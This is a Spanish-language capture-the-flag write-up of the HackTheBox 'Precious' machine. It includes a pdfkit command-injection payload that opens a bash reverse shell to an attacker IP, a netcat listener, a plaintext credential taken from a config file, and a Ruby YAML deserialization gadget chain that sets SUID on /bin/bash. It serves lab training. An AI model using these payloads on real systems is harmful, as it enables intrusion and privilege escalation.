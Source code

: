 ```yaml
---
title: "Precious HTB Writeup"
layout: single
excerpt: "Maquina HTB de dificultad facil, en esta maquina se ve como realizar un exploit a una aplicación web vulnerable usando una ejecución remota de comandos y un servidor local. La escalada de privilegios se basa despues en la explotación de un privilegio de sudo a un archivo .yml."
show_date: true
classes: wide
header:
  teaser: /assets/images/CTFs/Precious-HTB/icon.png
  teaser_home_page: true  
  icon: /assets/images/HackTheBox-icon.png
categories:
  - HackTheBox 
  - Easy
---
```

![Precious](/assets/images/CTFs/Precious-HTB/header.png)

# Reconocimiento 🔎 

Como siempre realizamos un pequeño escaneo de puertos rápido con el siguiente comando buscando cualquier puerto abierto.

```bash
nmap -p- 10.10.11.189
```
![image](/assets/images/CTFs/Precious-HTB/01.png)

Continuamos con un escaneo más avanzado de estos puertos.
```bash
sudo nmap -sV -p 22,80 10.10.11.189
```
![image](/assets/images/CTFs/Precious-HTB/02.png)

Ahora vamos a configurar nuestro fichero `/etc/hosts` para poder ver el servicio http.

![image](/assets/images/CTFs/Precious-HTB/03.png)

Nos dirigimos hacia la web y vamos a poder ver que la web es un convertidor web a pdf.

![image](/assets/images/CTFs/Precious-HTB/04.png)

Así que para probarlo vamos a lanzar un servidor web en nuestra máquina local a través de python.
```bash
python3 -m http.server 80
```
![image](/assets/images/CTFs/Precious-HTB/06.png)

Así que ahora vamos a probar introduciendo la IP de la máquina atacante en el servicio web de la máquina víctima.

![image](/assets/images/CTFs/Precious-HTB/07.png)

Y como podemos ver se ha convertido nuestra web en un PDF como se esperaba, así que vamos a descargar el PDF para analizarlo con la herramienta `exiftool`.

![image](/assets/images/CTFs/Precious-HTB/08.png)

Vemos que ha sido generado por una herramienta: `pdfkit v0.8.6`. La cuál si hacemos una búqueda en Google, podemos ver que es vulnerable a `Command Injection`.

![image](/assets/images/CTFs/Precious-HTB/09.png)

Tras informarme más sobre este CVE, podemos saber que tenemos que introducir el parametro `name` y dentro usar los ``backticks`` para inyectar nuestro comando.<br>
- Para saber más sobre CVE-2022-25765:<br>
[https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795 ](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) 

<br><br>

# Explotación 🔑
Vamos a probar si funciona el exploit mencionado anteriormente:
```bash
http://10.10.14.46/?name=%20`pwd`
```
![image](/assets/images/CTFs/Precious-HTB/10.png)<br>
Y vemos que funciona correctamente.

![image](/assets/images/CTFs/Precious-HTB/11.png)<br>

Así manos a la obra. Este será el payload que voy a introducir:
```bash
http://10.10.14.46/?name=%20`/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.46/4747 0>&1'`
```

Antes de lanzar el payload vamos abrir un listener con netcat:
```bash
nc -nvlp 4747
```
<br>
Ejecutamos el payload y ya tendriamos acceso a la máquina víctima.

![image](/assets/images/CTFs/Precious-HTB/12.png)<br>

Tenemos acceso al usuario ruby pero no existe ningún fichero para ejecutar como root, así que vamos a pivotar al usuario henry mediante el fichero `config` en el directorio `.bundle` que he encontrado.
```bash
ruby@precious:/var/www/pdfapp$ cd ~
cd ~
ruby@precious:~$ ls -la
ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 May  3 06:34 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 3 ruby ruby 4096 May  3 06:34 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
ruby@precious:~$ ls -al .bundle 
ls -al .bundle
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .
drwxr-xr-x 4 ruby ruby 4096 May  3 06:34 ..
-r-xr-xr-x 1 root ruby   62 Sep 26  2022 config
ruby@precious:~$ cat .bundle/config
cat .bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```
Accedemos al usuario henry mediante ssh:
```bash
ssh henry@10.10.11.189 
```
![image](/assets/images/CTFs/Precious-HTB/13.png)<br>
Ahora pasamos a la siguiente fase para terminar con el CTF.

<br><br>

# Escalada de Privilegios 🚀
Ya teniendo acceso al usuario henry el siguiente paso sería escalar los privilegios a root.<br><br>
Vamos a listar fichero que se ejecuta como root dentro del usuario henry:

![image](/assets/images/CTFs/Precious-HTB/14.png)<br>

Obtenemos el fichero `update_dependencies.rb` que podemos ejecutarlo como usuario root. Vamos a echarle un vistazo.

![image](/assets/images/CTFs/Precious-HTB/15.png)<br>

Mirando el código veo que utiliza un YAML.load, cuál es vulnerable a ataques de deserialización YAML.<br>
<br>
Puedes ver más sobre ataques de deserialización YAML en el siguiente enlace:<br>
[https://github.com/DevComputaria/KnowledgeBase/blob/master/pentesting-web/deserialization/python-yaml-deserialization.md](https://github.com/DevComputaria/KnowledgeBase/blob/master/pentesting-web/deserialization/python-yaml-deserialization.md)
<br><br>

Ahora podemos explotar con nuestro fichero `dependencies.yml`.

![image](/assets/images/CTFs/Precious-HTB/16.png)<br>
### dependencies.yml
```YAML
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod +s /bin/bash
         method_id: :resolve
```
<br>

Ejecutar el fichero con permisos de ejecución root.

![image](/assets/images/CTFs/Precious-HTB/17.png)<br>
<br>
Y ya con esto tenemos el usuario root a nuestra disposición. Y poder conseguir la **FLAG**.

![image](/assets/images/CTFs/Precious-HTB/18.png)<br>
<br>

---

<br>
Espero que te haya servido de ayuda este post. Me ayudarías mucho si lo compartes en tus **RRSS**, GRACIAS!

